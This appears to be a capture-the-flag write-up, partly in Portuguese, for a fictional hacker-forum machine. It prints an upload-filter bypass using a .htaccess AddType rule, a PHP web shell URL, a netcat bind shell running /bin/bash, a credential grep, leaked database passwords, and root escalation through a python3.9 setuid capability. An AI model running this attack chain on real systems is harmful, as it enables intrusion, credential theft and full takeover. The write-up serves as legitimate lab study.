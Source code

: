 #+title: Core
#+author: gabriel

* intro
Our Anti-Cybercrime team has received information about illegal activities on a hacker forum. The administrator of the forum conducts his shady business here in secret and every day new members are added to the criminal network. Our team suspects that confidential data is stored on the server of this forum. Your task is to infiltrate the forum as a normal user and collect important information about the administrator. This operation requires careful planning and high technical skills. Our goal is to identify digital criminals and ensure the digital security of society.

** urls
#+begin_src sh
http://coreforum.hv/
http://coreforum.hv/
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/addPost.php
http://coreforum.hv/index.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/logout.php
http://coreforum.hv/profile.php
http://coreforum.hv/register.html
http://coreforum.hv/register.php
http://coreforum.hv/set_session.php
http://coreforum.hv/set_session.php?id=61
http://coreforum.hv/set_session.php?id=62
http://coreforum.hv/set_session.php?id=63
http://coreforum.hv/set_session.php?id=64
http://coreforum.hv/set_session.php?id=65
http://coreforum.hv/set_session.php?id=66
http://coreforum.hv/set_session.php?id=67
http://coreforum.hv/set_session.php?id=68
http://coreforum.hv/set_session.php?id=69
http://coreforum.hv/set_session.php?id=70
http://coreforum.hv/set_session.php?id=71
http://coreforum.hv/set_session.php?id=72
http://coreforum.hv/set_session.php?id=73
http://coreforum.hv/show_post.php
http://coreforum.hv/topics
http://coreforum.hv/topics/topic1.html
http://coreforum.hv/topics/topic2.html
http://coreforum.hv/topics/topic3.html
http://coreforum.hv/topics/topic4.html
http://coreforum.hv/uploads
http://coreforum.hv/uploads
http://coreforum.hv/uploads/.htaccess
http://coreforum.hv/uploads/cmd.bypass
http://coreforum.hv/uploads/cmd.bypass?cmd=ls
#+end_src

Na funcionalidade de file upload existe um filtro para extensão, fiz alterações no MIME type, FIle signature e mesmo assim não conseguia o upload do web shell php.

Porém ao enviar um arquivo .htaccess com o content
: AddType application/x-httpd-php .bypass

o bypass no filtro é bem sucedido e a vuln command injection foi encontrada ->
: http://coreforum.hv/uploads/cmd.bypass?cmd=ls



*rodar na aplicação* ->
: nc -lvnp 1337 -e /bin/bash

*to get bash* ->
: python3 -c 'import pty; pty.spawn("/bin/bash")'

*CTRL - Z no reverse shell e*->
: stty raw -echo; fg


*xterm para funcionar corretamente* ->
: export TERM=xterm

*permissao do www-data user sem password* ->
: sudo /usr/sbin/iftop

porém o iftop está com algumas opções perigosas para segurança como espace shell desativada, então será necessário outro caminho

Sabendo da existência do banco de dados, utilizando este grep buscarei por alguma coisa com password no dir da aplicação ->
: grep -ri "password" /var/www/html/

#+begin_src sh
www-data@debian:/var/www/html/uploads$ cat /var/www/html/dbconnect.php
<?php

$servername = "localhost";
$db_username = "root";
$db_password = "mUsQ6kQ6L86yRnzD";
$dbname = "hacker";
#+end_src

#+begin_src sh
mysql> select * from users;
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
|  1 | admin    | LrEVgETDEUDVAdCa |
| 13 | jon      | jonadmin         |
+----+----------+------------------+
#+end_src

Porém ainda é necessário pegar o root do sistema, o iftop está limitado com a opção de subshell desativada.

Importei o linpeas from meu host para o /tmp da máquina target, e executei ele.

Após encontrar o python3.9 com a cap_setuid=ep
: /usr/bin/python3.9 -c 'import os; os.setuid(0); os.system("/bin/sh")'

ROot
: cat /root/private.txt
: cat /root/domains.txt
